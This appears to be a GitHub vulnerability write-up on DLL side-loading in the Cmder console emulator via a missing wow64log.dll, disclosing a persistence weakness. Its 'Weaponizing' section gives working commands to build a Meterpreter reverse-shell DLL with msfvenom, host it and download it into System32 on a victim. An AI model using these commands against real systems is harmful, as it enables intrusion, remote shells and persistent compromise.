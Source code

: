 # Cmder DLL Side-Loading v1.3.25 (Full and Mini Versions)
According to https://cmder.app/ it is:
````
Cmder is a software package created out of pure frustration over the absence of nice
console emulators on Windows. It is based on amazing software, and spiced up with
the Monokai color scheme and a custom prompt layout, looking sexy from the start.
````
- I couldnt agree more, it is a great application and I use it on all my Windows systems.
- This repo details an issue in the Cmder application (Full and Mini Versions) in which a DLL is seached for and not found allowing an attacker the ability to get code execution

## Application Link
- https://cmder.app/
- https://github.com/cmderdev/cmder

## Overview
- In Sysinternals ProcessMonitor we can set three basic filters seen below
````
Process Name is Cmder.exe
Path Ends With .dll
Result is NAME NOT FOUND
````
![image](https://github.com/user-attachments/assets/57aa37ee-1d6a-4ef8-b19f-6aeee77faf46)
- The cmder application (Full version and Mini Version) both search for a dll located under `C:\Windows\System32\wow64log.dll`, however it cannot be found and is not included with Windows.
![image](https://github.com/user-attachments/assets/cc8ae186-ba31-47c4-8f33-2e1b48d3761d)

## Weaponizing
- We can generate a simple msfvenom DLL and place it under `C:\Windows\System32`, naming it `wow64log.dll`
````
# Generate the malicious DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.15.130 LPORT=4444 -f dll -o wow64log.dll
# Host the payload
python3 -m http.server
# Transfer the payload to the victim system
cd C:\Windows\System32
iwr http://kali.space:8000/wow64log.dll -o wow64log.dll
````
- Upon opening the application we will recieve a call back.
- From testing your Meterpreter shell will drop you into `C:\Windows` and your pid will be associated to `rundll32.exe`. Your PPID will no longer be running on the system.
![image](https://github.com/user-attachments/assets/ef851afc-fae9-43a6-bc10-1c52aa2e3a4a)

## Privilege Escalation
- From testing if the Cmder application is run without Administrator permissions you will recieve a shell in the context of your user account.
- If the Cmder application is run WITH Administrator permissions you will recieve a shell in the context of the Admin privileged account.
![image](https://github.com/user-attachments/assets/df922eee-615b-40a2-858f-1e9a1eaed4fd)
![image](https://github.com/user-attachments/assets/a1d8e088-1b7c-4613-a1d3-9695238a939a)

## Notes
- It should be noted that an attacker would require Administrator permissions in order to take advantage of this vulnerability. This is due to the missing DLL being located under `System32`. While this technique does not allow an attacker to priviledge escalate it does provide a potential persistance mechanism. This DLL Side Loading issue allows an attacker to gain code execution anytime the application Cmder is opened.

